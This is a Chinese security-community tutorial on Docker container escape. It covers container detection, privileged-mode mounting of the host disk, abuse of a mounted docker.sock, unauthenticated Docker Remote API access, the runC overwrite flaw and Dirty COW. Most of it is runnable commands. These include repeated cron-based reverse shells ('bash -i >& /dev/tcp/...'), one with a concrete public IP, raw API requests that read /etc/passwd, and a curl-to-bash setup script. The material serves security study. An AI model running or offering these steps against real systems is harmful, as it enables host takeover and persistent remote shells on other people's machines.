


# 浅谈 Docker 逃逸 - 先知社区

浅谈 Docker 逃逸

- - -

# 原理

docker 其实就是一个 linux 下的进程，它通过 NameSpace 等命令实现了内核级别环境隔离（文件、网络、资源），所以相比虚拟机而言，Docker 的隔离性要弱上不少，这就导致可以通过很多方法来进行 docker 逃逸。

# 环境搭建

```plain
curl https://gist.githubusercontent.com/thinkycx/e2c9090f035d7b09156077903d6afa51/raw -o docker.sh && bash docker.sh
```

# Docker 环境判断

1、查找.dockerenv 文件

docker 下默认存在 dockerenv 文件，而非 docker 环境中则没有

[](https://xzfile.aliyuncs.com/media/upload/picture/20230428211257-650918ce-e5c6-1.png)  
2、查询 cgroup 进程

```plain
cat /proc/1/cgroup
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20230428211307-6aacd004-e5c6-1.png)  
3、查看容器环境变量

```plain
cat /proc/1/environ
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20230428211313-6e22b15e-e5c6-1.png)

# Docker 容器逃逸

## 特权模式逃逸

以特权模式启动时，docker 容器内拥有宿主机文件读写权限，可以通过写 ssh 密钥、计划任务等方式达到逃逸。

### 如何判断是否为特权模式

在 suid 提权中 SUID 设置的程序出现漏洞就非常容易被利用，所以 Linux 引入了 Capability 机制以此来实现更加细致的权限控制，从而增加系统的安全性

当容器为特权模式时，将添加如下功能：[使用指南 - 特权容器](https://www.bookstack.cn/read/openeuler-21.03-zh/70e0731add42ae6d.md)

[](https://xzfile.aliyuncs.com/media/upload/picture/20230428211322-73800322-e5c6-1.png)  
但这里并不能说拥有以上某种功能就是特权容器，因为特权容器还需满足：

-   必须缺少 AppArmor 配置文件，否则将允许 mount syscall
-   能够“看到”很多敏感的 dev 设备

上述两个条件目前还不知道如何获取，所以重点看下特权容器中获取的 Cap 集合

```plain
root@227b7e10b9a6:/# cat /proc/1/status | grep Cap
CapInh: 0000000000000000
CapPrm: 0000001fffffffff
CapEff: 0000001fffffffff
CapBnd: 0000001fffffffff
CapAmb: 0000000000000000
```

CapEff 主要是检查线程的执行权限，所以重点看下利用 `capsh --decode=0000003fffffffff` 进行解码，检索默认没有添加的 NET\_ADMIN，发现存在

[](https://xzfile.aliyuncs.com/media/upload/picture/20230428211332-79e01266-e5c6-1.png)  
而非特权容器的 Cap 集合值并进行解码，发现并不存在 NET\_ADMIN

因此当执行 `cat /proc/1/status | grep Cap` 查询对应出来的值为 `0000003fffffffff` 那么就有可能是特权容器，可尝试逃逸

### 逃逸

1、首先以特权模式运行一个 docker 容器

```plain
docker run -it --privileged 镜像 id /bin/bash
```

2、查看磁盘文件

```plain
fdisk -l
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20230428211343-80258066-e5c6-1.png)  
3、新建一个目录，将/dev/vda1 挂载至新建的目录

```plain
mkdir /test
mount /dev/vda1 /test
```

4、写入计划任务到宿主机

```plain
echo '* * * * * bash -i >& /dev/tcp/ip/4000 0>&1' >> /test/var/spool/cron/root
```

5、成功反弹 shell

[](https://xzfile.aliyuncs.com/media/upload/picture/20230428211403-8bf935ae-e5c6-1.png)

## docker.sock 挂载逃逸

Docker 采用 C/S 架构，我们平常使用的 Docker 命令中，docker 即为 client，Server 端的角色由 docker daemon(docker 守护进程) 扮演，二者之间通信方式有以下 3 种：

```plain
1, unix:///var/run/docker.sock
2, tcp://host:port
3、fd://socketfd
```

其中使用 docker.sock 进行通信为默认方式，当容器中进程需在生产过程中与 Docker 守护进程通信时，容器本身需要挂载/var/run/docker.sock 文件。  
本质上而言，能够访问 docker socket 或连接 HTTPS API 的进程可以执行 Docker 服务能够运行的任意命令，以 root 权限运行的 Docker 服务通常可以访问整个主机系统。  
因此，当容器访问 docker socket 时，我们可通过与 docker daemon 的通信对其进行恶意操纵完成逃逸。若容器 A 可以访问 docker socket，我们便可在其内部安装 client（docker），通过 docker.sock 与宿主机的 server（docker daemon）进行交互，运行并切换至不安全的容器 B，最终在容器 B 中控制宿主机。

### 逃逸

1、运行一个挂载/var/run/的容器

```plain
docker run -it -v /var/run/:/host/var/run/ 5d2df19066ac /bin/bash
```

2、寻找下挂载的 sock 文件

```plain
find / -name docker.sock
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20230428211419-95c4e2f4-e5c6-1.png)  
3、在容器内安装 client，即 docker

```plain
apt-get update
apt-get install docker.io
```

4、查看宿主机 docker 信息

```plain
docker -H unix:///host/var/run/docker.sock info
```

5、运行一个新容器并挂载宿主机根路径

```plain
docker -H unix:///host/var/run/docker.sock run -v /:/test -it ubuntu:14.04 /bin/bash
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20230428211447-a65dcff4-e5c6-1.png)  
6、写入计划任务到宿主机

```plain
echo '* * * * * bash -i >& /dev/tcp/ip/4000 0>&1' >> /test/var/spool/cron/root
```

## Remote API 未授权访问

docker swarm 中默认通过 2375 端口通信。绑定了一个 Docker Remote API 的服务，可以通过 HTTP、Python、调用 API 来操作 Docker。

### 未授权访问

当使用官方推荐启动方式时

```plain
dockerd -H unix:///var/run/docker.sock -H 0.0.0.0:2375
```

在没有其他网络访问限制的主机上使用，则会在公网暴漏端口。

[](https://xzfile.aliyuncs.com/media/upload/picture/20230428211433-9e1cbe5e-e5c6-1.png)  
1、此时访问/containers/json，便会得到所有容器 id 字段

[](https://xzfile.aliyuncs.com/media/upload/picture/20230428211504-b0a412ac-e5c6-1.png)  
2、创建一个 exec

```plain
POST /containers/<container_id>/exec HTTP/1.1
Host: <docker_host>:PORT
Content-Type: application/json
Content-Length: 188

{
  "AttachStdin": true,
  "AttachStdout": true,
  "AttachStderr": true,
  "Cmd": ["cat", "/etc/passwd"],
  "DetachKeys": "ctrl-p,ctrl-q",
  "Privileged": true,
  "Tty": true
}
```

发包后返回 exec 的 id 参数

[](https://xzfile.aliyuncs.com/media/upload/picture/20230428211520-ba153a64-e5c6-1.png)  
3、执行 exec 中的命令，成功读取 passwd 文件

```plain
POST /exec/<exec_id>/start HTTP/1.1
Host: <docker_host>:PORT
Content-Type: application/json

{
 "Detach": false,
 "Tty": false
}
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20230428211540-c5d2aa26-e5c6-1.png)  
这种方式只是获取到了 docker 主机的命令执行权限，但是还无法逃逸到宿主机。因此还是需要写公钥或者计时任务进行逃逸

### 逃逸

1、在容器内安装 docker

```plain
apt-get update
apt-get install docker.io
```

2、查看宿主机 docker 镜像信息

```plain
docker -H tcp://ip:2375 images
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20230428211553-cd69175c-e5c6-1.png)  
3、启动一个容器并将宿主机根目录挂在到容器的 test 目录

```plain
docker -H tcp://ip:2375 run -it -v /:/test 5d2df19066ac /bin/bash
```

4、计时任务反弹 shell

```plain
echo '* * * * * bash -i >& /dev/tcp/101.200.208.44/4000 0>&1' >> /test/var/spool/cron/root
```

## 容器服务缺陷逃逸

runc 是一个底层服务工具，runC 管理容器的创建，运行，销毁等，docker 部分版本服务运行时底层其实在运行着 runc 服务，攻击者可以通过特定的容器镜像或者 exec 操作重写宿主机上的 runc 二进制文件，并在宿主机上以 root 身份执行命令。

### 影响版本

docker version <=18.09.2

RunC version <=1.0-rc6

### 环境搭建

由于对版本有限制，所以用之前 docker 中的 ubuntu 环境搭建符合漏洞版本的 docker，参考[Ubuntu 安装指定版本的 docker - 朝花夕拾 - SegmentFault 思否](https://segmentfault.com/a/1190000042702027?utm_source=sf-similar-article)

1、安装 apt 依赖包，用于通过 HTTPS 来获取仓库

```plain
apt-get install apt-transport-https ca-certificates curl gnupg-agent software-properties-common
```

2、添加 Docker 的官方 GPG 密钥

```plain
curl -fsSL https://download.docker.com/linux/ubuntu/gpg | apt-key add -
```

3、设置稳定版仓库 (添加到/etc/apt/sources.list 中)

```plain
add-apt-repository "deb [arch=amd64] https://download.docker.com/linux/ubuntu $(lsb_release -cs) stable"
```

4、更新 apt-get

```plain
apt-get update
```

5、查询 docker-ce 版本

```plain
apt-cache policy docker-ce
```

6、安装指定版本 docker

```plain
apt-get install docker-ce=18.06.1~ce~3-0~ubuntu
```

### 逃逸

1、编译 payload 中反弹 shell 地址

[](https://xzfile.aliyuncs.com/media/upload/picture/20230428211611-d820b3c6-e5c6-1.png)  
2、编译生成 payload

```plain
CGO_ENABLED=0 GOOS=linux GOARCH=amd64 go build main.go
```

3、编译好后传入 docker 容器中

```plain
docker cp main 1fa6a736e332:/home
docker exec -it 1fa6a736e332 /bin/bash
cd /home/
chmod 777 main
```

4.运行 main 程序成功反弹 shell

```plain
./main
```

## 脏牛漏洞逃逸

Dirty Cow 是 Linux 内核中的提权漏洞，源于 Linux 内核的内存子系统在处理写入拷贝时存在竞争条件（race condition），允许恶意用户提权获取其他只读内存映射的写访问权限。

docker 和宿主机共享内核，因此就可利用该漏洞进行逃逸

```plain
git clone https://github.com/gebl/dirtycow-docker-vdso.git
cd dirtycow-docker-vdso/
docker-compose run dirtycow /bin/bash

cd /dirtycow-vdso/
make
./0xdeadbeef ip:port // 反弹 shell
```
